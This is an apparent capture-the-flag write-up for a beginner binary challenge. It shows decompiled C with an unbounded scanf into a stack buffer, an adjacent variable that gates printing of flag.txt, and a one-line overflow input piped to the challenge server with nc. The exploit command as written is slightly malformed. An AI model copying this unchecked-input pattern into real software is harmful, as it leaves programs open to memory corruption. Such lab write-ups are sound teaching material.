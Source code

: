 ---

This one as the name suggests, was incredibly easy and honestly probably worth too many points, but here's a writeup regardless.


So we are given a binary tooEasy and was told that 
| Challenge by: nullp0inter
| This one is almost too easy, get the flag!
| nc wcscctf.org 8383

Opening up the binary in ida we see two functions of note, `main` and `det`, generated c code at the bottom of this post.

In main buffer is allocated to **0x424** (or (1060)<sup>10</sup> in decimal)

The variable (not originally named this) called `overWriteThisSheet` is allocated right after buffer. 
`overWriteThisSheet = 56797;` happens in `main`. 

Now looking at `det` we see that `verWriteThisShit` is passed to the function and has a simple check to see if it is the originally set value, **56797**. 

So even though the python script to run this like a normal exploit, it would be easier to just use `python -c '"a"*1070' ` and pipe the output to `nc wcscctf.org 8383`

```language-c
int  main(int argc, const char **argv, const char **envp)
{
  char buffer; // [sp+4h] [bp-424h]
  int overWriteThisSheet; // [sp+41Ch] [bp-Ch]

  overWriteThisSheet = 56797;
  __isoc99_scanf("%s", &buffer);
  det(overWriteThisSheet);
  return 1;
}
```

```language-c
void det(int overWriteThisSheet)
{
  char buf; // [sp+Ch] [bp-8Ch]@2
  int fd; // [sp+8Ch] [bp-Ch]@2

  if ( overWriteThisSheet != 56797 )
  {
    puts("GZ, you win!");
    fd = open("./flag.txt", 0);
    read(fd, &buf, 0x80u);
    printf("%s", &buf);
    exit(0);
  }
}
```
